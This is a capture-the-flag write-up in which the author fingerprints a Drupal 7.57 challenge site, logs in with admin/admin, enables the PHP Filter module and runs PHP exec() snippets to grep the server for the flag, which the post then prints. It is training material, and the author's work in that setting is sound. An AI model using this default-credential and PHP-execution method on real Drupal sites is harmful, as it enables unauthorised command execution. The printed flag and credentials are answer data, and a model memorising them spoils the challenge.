 # Our new site! (exploit) (author: snn)

## Description

```shell
We already started thinking about 2024! Our test site is already up and running.

Please help us and contribute!

username: user password: woAheZiUWZPW9wEYKYG
```

## Task analysis & solution

A docker instance is provided by the CyberXmas infrastructure with an address and a port. That instance is being spun up for a limited amount of time, until it needs to be reverted again. Let's connect to it with SSH:

```shell
└ $ ssh user@10.10.8.61 -p 34155
kex_exchange_identification: Connection closed by remote host
└ $ ssh user@10.10.8.61 -p 34155 -v
OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2
debug1: Connecting to 10.10.8.61 [10.10.8.61] port 34155.
debug1: Connection established.
debug1: identity file C:\\Users\\snn/.ssh/id_rsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_rsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_dsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_dsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ecdsa type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ecdsa-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_ed25519 type 3
debug1: identity file C:\\Users\\snn/.ssh/id_ed25519-cert type -1
debug1: identity file C:\\Users\\snn/.ssh/id_xmss type -1
debug1: identity file C:\\Users\\snn/.ssh/id_xmss-cert type -1
debug1: Local version string SSH-2.0-OpenSSH_for_Windows_8.1
debug1: kex_exchange_identification: banner line 0: HTTP/1.1 400 Bad Request
debug1: kex_exchange_identification: banner line 1: Date: Tue, 26 Dec 2023 21:21:15 GMT
debug1: kex_exchange_identification: banner line 2: Server: Apache/2.4.10 (Debian)
debug1: kex_exchange_identification: banner line 3: Content-Length: 302
debug1: kex_exchange_identification: banner line 4: Connection: close
debug1: kex_exchange_identification: banner line 5: Content-Type: text/html; charset=iso-8859-1
debug1: kex_exchange_identification: banner line 6:
debug1: kex_exchange_identification: banner line 7: <!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
debug1: kex_exchange_identification: banner line 8: <html><head>
debug1: kex_exchange_identification: banner line 9: <title>400 Bad Request</title>
debug1: kex_exchange_identification: banner line 10: </head><body>
debug1: kex_exchange_identification: banner line 11: <h1>Bad Request</h1>
debug1: kex_exchange_identification: banner line 12: <p>Your browser sent a request that this server could not understand.<br />
debug1: kex_exchange_identification: banner line 13: </p>
debug1: kex_exchange_identification: banner line 14: <hr>
debug1: kex_exchange_identification: banner line 15: <address>Apache/2.4.10 (Debian) Server at 172.17.0.6 Port 80</address>
debug1: kex_exchange_identification: banner line 16: </body></html>
kex_exchange_identification: Connection closed by remote host
└ $
```
No useful results here, so I decided to abandon SSH for the time being.

Let's give it a try in a web browser:

![Alt text](1.png)

Good! As we can see we are in some page that was developed by 
`Drupal`

A quick search online provides the following information - `Drupal is a free and open-source web content management system written in PHP and distributed under the GNU General Public License. Wikipedia`

So we are in the CMS site and as the hint in the challenge sais - `Please help us and contribute!`

How about we try to find some more information about Drupal in home page's source...

```web
<meta name="Generator" content="Drupal 7 (http://drupal.org)">
```

From here we understand that we are dealing with Drupal 7.

Let's see whether we have a robots.txt file, for those pesky web crawlers at
http://10.10.8.61:34155/robots.txt (34155 was the port at the time)


```web
#
# robots.txt
#
# This file is to prevent the crawling and indexing of certain parts
# of your site by web crawlers and spiders run by sites like Yahoo!
# and Google. By telling these "robots" where not to go on your site,
# you save bandwidth and server resources.
#
# This file will be ignored unless it is at the root of your host:
# Used:    http://example.com/robots.txt
# Ignored: http://example.com/site/robots.txt
#
# For more information about the robots.txt standard, see:
# http://www.robotstxt.org/robotstxt.html

User-agent: *
Crawl-delay: 10
# CSS, JS, Images
# Files
...
Disallow: /CHANGELOG.txt
...

```
We can see there's a diallowed CHANGELOG.txt file that we might be interested in:

```url
http://10.10.8.61:34155/CHANGELOG.txt
```

```web
Drupal 7.57, 2018-02-21
-----------------------
- Fixed security issues (multiple vulnerabilities). See SA-CORE-2018-001.

Drupal 7.56, 2017-06-21
-----------------------
- Fixed security issues (access bypass). See SA-CORE-2017-003.

Drupal 7.55, 2017-06-07
```

In the changelog, we can see the exact Drupal version - 7.57, released on 2018-02-21

A quick online search yielded quite a bit of possible Drupal exploits. I did try many of those, namely the Drupalgeddon ones with metasploit, but without success..

![Alt text](2.png)


Anyway... most of the articles were about remote code execution with a php module. However in our case php is not even installed. 

I quickly realized that I need a way to install PHP on the site and that meant I needed admin access. So I did a quick search online for "Drupal 7 admin explot", which yielded these two results:

![Alt text](3.png)

Since I knew that SQL is of no interest, I put more effort in the second result: 
[Drupal 7x exploitation](https://medium.com/@yasmeena_rezk/drupal-7-x-exploitation-7eb1c7cfa4dc)

I got really excited about this line here, which gave me some ideas:

```python
# python2.7  drupalgeddon.py -t <url> -u <username>-p <password>
python2.7  drupalgeddon.py -t http://drupal-qa.ex.com -u admin -p admin
```

Regardless of the fact that the article was about Drupal 7.30, I 
immediately decided to give it a try with admin/admin for access -> 

:voila:

![Alt text](4.png)

Silly me, I should've tried these first! Anyway, now for fun part:
1. Go to Modules
2. Enable PHP Filter
3. Save Configuration:

![Alt text](5.png)

Now go and add an article:

![Alt text](6.png)

When you click on preview button we can see that our command has executed some php code:

![Alt text](7.png)

It looks like we are in the /var/www/html folder, so why not search for a file containing the flag, which should start with ***MilestoneCTF***? I decided to start the search from /var/www

```code
<?php
// outputs the username that owns the running php/httpd process
// (on a system with the "whoami" executable in the path)
$output=null;
$retval=null;
exec('grep -Rnw "/var/www" -e "MilestoneCTF"', $output, $retval);
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```

We have found a file **/var/www/html/sites/default/files/.ht.sqlite** that contains ***MilestoneCTF***:

![Alt text](8.png)

Let's put grep to work here:

```php
<?php
// outputs the username that owns the running php/httpd process
// (on a system with the "whoami" executable in the path)
$output=null;
$retval=null;

exec('strings /var/www/html/sites/default/files/.ht.sqlite | grep -m 1 -e "MilestoneCTF"', $output, $retval);
echo "Returned with status $retval and output:\n";
print_r($output);
?>
```

![Alt text](9.png)


> The flag was inside the sqlite database in plain text: ***MilestoneCTF{this-is-a-really-nice-flag}***
